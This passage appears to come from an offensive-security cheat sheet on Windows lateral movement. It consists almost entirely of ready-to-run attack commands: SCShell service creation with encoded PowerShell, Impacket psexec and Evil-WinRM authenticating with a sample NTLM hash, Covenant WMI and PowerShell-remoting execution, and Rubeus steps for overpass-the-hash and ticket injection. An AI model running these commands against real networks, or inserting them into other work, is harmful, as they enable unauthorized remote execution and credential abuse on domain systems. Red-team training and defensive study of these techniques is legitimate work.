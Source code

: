 exe

```
.\SCShell.exe 192.168.83.121 InstallService "c:\windows\system32\cmd.exe /c powershell -exec bypass -enc
```

#### Impacket

```
proxychains psexec.py -hashes '1ef8ec7a4e862ed968d4d335afb77215:1ef8ec7a4e862ed968d4d335afb77215' 'vault/sqladm@172.16.83.152'
```

#### Using Covenant WMICommand

```
> wmicommand dc02 "powershell -exec bypass -enc JABkA[...]AAoA"
```

#### Using Covenant PowerShellRemoting

```
> PowerShellRemotingCommand dc02 "powershell -exec bypass -enc JABk[...]AAoA"
```

#### Evil-WinRM

```
proxychains evil-winrm -i 172.16.83.152 -u sqlsvc -H '1ef8ec7a4e862ed968d4d335afb77215'
```

#### Over Pass the Hash

Meterpreter

```
# get rc4
> invoke-rubeus -command "hash /password:Summer2018!"

# get aes
> invoke-rubeus -command "hash /password:Summer2018! /user:fs-thelikes$ /domain:vault.local"

# request tgt
> invoke-rubeus -command "asktgt /user:sqladm /rc4:1ef8ec7a4e862ed968d4d335afb77215"

# create a dummy process
> invoke-rubeus -command "createnetonly /program:c:\windows\system32\cmd.exe"

# pass the ticket to the process
> invoke-rubeus -command "ptt /ticket:[...] /luid:0x49c51e"
```

Covenant

```
# request a ticket
> rubeus asktgt /user:bruce /rc4:<ntlm> /outfile:ticket.kirbi

# sacraficial process
> rubeus createnetonly /program:c:\windows\system32\cmd.exe

# pass the ticket
> rubeus ptt /luid:0x330c17 /ticket:c:\windows\tasks\ticket.kirbi

# impersonate
> ImpersonateProcess 1116
```
